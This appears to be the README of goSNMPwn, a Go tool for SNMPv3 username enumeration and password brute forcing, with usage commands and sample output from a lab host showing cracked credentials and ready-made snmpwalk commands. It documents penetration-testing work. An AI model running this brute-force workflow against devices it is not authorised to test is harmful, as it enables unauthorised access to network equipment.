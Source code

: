 # SNMPv3 Brute Force Tool

A multi-threaded SNMPv3 authentication testing tool written in Go. This tool can perform username enumeration, basic SNMP enumeration, and password brute forcing with support for various authentication and privacy protocols. It can do this over both UDP and TCP.

## A note of caution
Go easy with the workers. The default is 10 but even that might be too much for some hosts. I tested up to 60 against Ubuntu on a local VM and the most I saw the CPU spike to was 10%. That might not be the case for network devices, so be sensible!

## Features

- SNMPv3 username enumeration
- Basic SNMP enumeration
- Password brute force with multi-threading
- Support for multiple authentication protocols (MD5, SHA, SHA224, SHA256, SHA384, SHA512)
- Support for multiple privacy protocols (AES, DES)
- Support for all SNMPv3 security levels (noAuthNoPriv, authNoPriv, authPriv)
- Progress tracking and detailed output
- TCP and UDP support

## Usage

### Basic Enumeration
~~~bash
./goSNMPwn --enum -ips 10.10.10.1 -protocol udp #or tcp
=== Testing IP: 10.10.10.1 ===

SNMP Engine Details:
Authorization Engine ID (hex): 80001f88804cb907288c06ae6700000000
Authorization Engine Boots: 4
Authorization Engine Time: 12753

Parsed Authorization Engine ID:
Engine ID Format: 8
Enterprise ID: net-snmp (8072)
MAC Address: 4c:b9:07:28:8c:06
~~~

### Username Enumeration
User enumeration relies on the fact that SNMP responds in a specific way when users dont exist. This allows us to use large lists of potential users to enumerate valid ones prior to brute forcing.

~~~bash
./goSNMPwn --userenum -ips 10.10.10.1 -userfile testusers.txt

=== Testing IP: 10.10.10.1 ===
[+] Valid username found on 10.10.10.1: cisco
[+] Valid username found on 10.10.10.1: snmp

Valid usernames saved to: foundusers_20250213_185106.txt

~~~

As you can see, it drops these to a file so we can use them in further attacks


### Password Brute Force
~~~bash
./goSNMPwn --brute -ips 10.10.10.1 -userfile testusers.txt -passfile passwords.txt -workers 60
[*] Starting brute force with 60 workers
[*] Total combinations to test: 1272362
[*] Combinations breakdown:
    - NULL Auth: 2 (users:2)
    - AuthNoPriv: 2760 (users:2 × passwords:230 × auth_protocols:6)
    - AuthPriv: 1269600 (users:2 × passwords:230 × enc_passwords:230 × auth_protocols:6 × priv_protocols:2)
    - Total combinations: 1272362
[*] [NULL Auth] Testing cisco@10.10.10.1 (1/1272362)
[*] [AuthNoPriv] Testing cisco@10.10.10.1 (Protocol:SHA Auth:crest) (2/1272362)
[*] [AuthPriv] Testing cisco@10.10.10.1 (Protocols:SHA/AES Auth:crest Priv:crest) (3/1272362)
[*] [NULL Auth] Testing snmp@10.10.10.1 (4/1272362)
[*] [AuthNoPriv] Testing snmp@10.10.10.1 (Protocol:SHA Auth:crest) (5/1272362)
[*] [AuthPriv] Testing snmp@10.10.10.1 (Protocols:SHA/AES Auth:crest Priv:crest) (6/1272362)
[*] [AuthPriv] Testing cisco@10.10.10.1 (Protocols:SHA/AES Auth:crest Priv:none) (7/1272362)
[*] [AuthPriv] Testing snmp@10.10.10.1 (Protocols:SHA/AES Auth:crest Priv:none) (8/1272362)
[*] [AuthPriv] Testing cisco@10.10.10.1 (Protocols:SHA/AES Auth:crest Priv:PASSWORD) (9/1272362)
[*] [AuthPriv] Testing snmp@10.10.10.1 (Protocols:SHA/AES Auth:crest Priv:PASSWORD) (10/1272362)
[*] [AuthPriv] Testing cisco@10.10.10.1 (Protocols:SHA/AES Auth:crest Priv:traffic) (11/1272362)
[*] [AuthPriv] Testing snmp@10.10.10.1 (Protocols:SHA/AES Auth:crest Priv:traffic) (12/1272362)
---snip---
[+] [AuthPriv] SUCCESS: cisco@10.10.10.1 (Protocols:MD5/AES Auth:password Priv:password)
[*] [AuthNoPriv] Testing cisco@10.10.10.1 (Protocol:MD5 Auth:sonicwall) (6346/30362)

Valid Users:
==================
|---------------|----------|-----------|---------------|---------------|---------------|---------------|---------------------------------------------------------------------------------------|
|     HOST      | USERNAME | AUTH TYPE | AUTH PROTOCOL | AUTH PASSWORD | PRIV PROTOCOL | PRIV PASSWORD |                                        COMMAND                                        |
|---------------|----------|-----------|---------------|---------------|---------------|---------------|---------------------------------------------------------------------------------------|
| 10.10.10.1    | snmp     | authPriv  | SHA           | password      | AES           | password      | snmpwalk -v3 -l authPriv -u snmp -a SHA -A password -x AES -X password 10.10.10.1  |
|---------------|----------|-----------|---------------|---------------|---------------|---------------|---------------------------------------------------------------------------------------|
| 10.10.10.1    | cisco    | authPriv  | MD5           | password      | AES           | password      | snmpwalk -v3 -l authPriv -u cisco -a MD5 -A password -x AES -X password 10.10.10.1 |
|---------------|----------|-----------|---------------|---------------|---------------|---------------|---------------------------------------------------------------------------------------|
~~~
The tool will automatically skip to the next user when it finds a working credential pair to save time.
The tool provides you the SNMP Walk string required to validate this for yourself.

## Password Lists
I included some basic ones for both the password and encryption passphrases, but you should really build your own to suit the environment you are testing. Worth considering that there are a lot of potential combinations to go through anyway, as systems can be configured with a per user encryption & hash algorithm + a password and encryption password.

## Command Line Arguments

- `-ips`: Comma-separated list of IP addresses to test
- `-ipfile`: File containing list of IPs (one per line)
- `-userfile`: File containing usernames to test
- `-passfile`: Password list for brute force
- `-encfile`: File containing encryption passwords (optional)
- `-enum`: Perform basic SNMP enumeration
- `-userenum`: Perform username enumeration
- `-brute`: Perform password brute force
- `-protocol`: SNMP protocol to use (udp or tcp)
- `-workers`: Number of concurrent workers for brute force (default: 10)


## Security Considerations

This tool is intended for authorized security testing only. Ensure you have permission to test the target systems before use. 

